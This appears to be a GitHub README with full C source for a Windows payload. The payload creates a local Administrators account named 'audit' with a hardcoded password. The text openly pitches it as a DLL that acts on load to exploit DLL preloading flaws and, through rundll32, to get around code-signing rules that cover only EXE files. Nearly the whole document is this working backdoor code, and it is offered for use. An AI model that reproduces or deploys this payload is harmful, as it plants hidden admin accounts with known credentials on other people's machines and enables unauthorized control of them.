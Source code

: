 # adduser

Programmatically creates a 'local admin' Windows user. Requires admin rights. The created user is hardcoded to the following:

Login: `audit`
Password: `Test123456789!` (this should be good enough to fit most password policies)

This standalone piece code can run in many contexts:
- As a command-line EXE.
- As a DLL (the user will be created on DLL load). This is useful to exploit "DLL Preloading" issues.
- As a DLL, through `rundll32.exe adduser.dll,CreateAdminUser@16`. This is useful to bypass mandatory code signing applied to EXE files only.

#### AddUser.c

```c++
#define UNICODE
#define _UNICODE

#include <windows.h>
#include <string.h>
#include <Lmaccess.h>
#include <lmerr.h>
#include <Tchar.h>


DWORD CreateAdminUserInternal(void) {
  NET_API_STATUS rc;
  BOOL b;
  DWORD dw;

  USER_INFO_1 ud;
  LOCALGROUP_MEMBERS_INFO_0 gd;
  SID_NAME_USE snu;

  DWORD cbSid = 256; // 256 bytes should be enough for everybody :)
  BYTE Sid[256];

  DWORD cbDomain = 256 / sizeof(TCHAR);
  TCHAR Domain[256];

  //
  // Create user
  // http://msdn.microsoft.com/en-us/library/aa370649%28v=VS.85%29.aspx
  //

  memset( & ud, 0, sizeof(ud));

  ud.usri1_name = _T("audit"); // username
  ud.usri1_password = _T("Test123456789!"); // password
  ud.usri1_priv = USER_PRIV_USER; // cannot set USER_PRIV_ADMIN on creation
  ud.usri1_flags = UF_SCRIPT | UF_NORMAL_ACCOUNT; // must be set
  ud.usri1_script_path = NULL;

  rc = NetUserAdd(
    NULL, // local server
    1, // information level
    (LPBYTE) & ud,
    NULL // error value
  );

  if (rc != NERR_Success) {
    _tprintf(_T("NetUserAdd FAIL %d 0x%08x\r\n"), rc, rc);
    return rc;
  }

  //
  // Get user SID
  // http://msdn.microsoft.com/en-us/library/aa379159(v=vs.85).aspx
  //

  b = LookupAccountName(
    NULL, // local server
    _T("audit"), // account name
    Sid, // SID
    &
    cbSid, // SID size
    Domain, // Domain
    &
    cbDomain, // Domain size
    &
    snu // SID_NAME_USE (enum)
  );

  if (!b) {
    dw = GetLastError();
    _tprintf(_T("LookupAccountName FAIL %d 0x%08x\r\n"), dw, dw);
    return dw;
  }

  //
  // Add user to "Administrators" local group
  // http://msdn.microsoft.com/en-us/library/aa370436%28v=VS.85%29.aspx
  //

  memset( & gd, 0, sizeof(gd));

  gd.lgrmi0_sid = (PSID) Sid;

  rc = NetLocalGroupAddMembers(
    NULL, // local server
    _T("Administrators"),
    0, // information level
    (LPBYTE) & gd,
    1 // only one entry
  );

  if (rc != NERR_Success) {
    _tprintf(_T("NetLocalGroupAddMembers FAIL %d 0x%08x\r\n"), rc, rc);
    return rc;
  }

  return 0;
}

//
// DLL entry point.
//

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
  switch (ul_reason_for_call) {
  case DLL_PROCESS_ATTACH:
    CreateAdminUserInternal();
  case DLL_THREAD_ATTACH:
  case DLL_THREAD_DETACH:
  case DLL_PROCESS_DETACH:
    break;
  }
  return TRUE;
}

//
// RUNDLL32 entry point.
// https://support.microsoft.com/en-us/help/164787/info-windows-rundll-and-rundll32-interface
//

#ifdef __cplusplus
extern "C" {
  #endif

  __declspec(dllexport) void __stdcall CreateAdminUser(HWND hwnd, HINSTANCE hinst, LPSTR lpszCmdLine, int nCmdShow) {
    CreateAdminUserInternal();
  }

  #ifdef __cplusplus
}
#endif

//
// Command-line entry point.
//

int main() {
  return CreateAdminUserInternal();
}

```
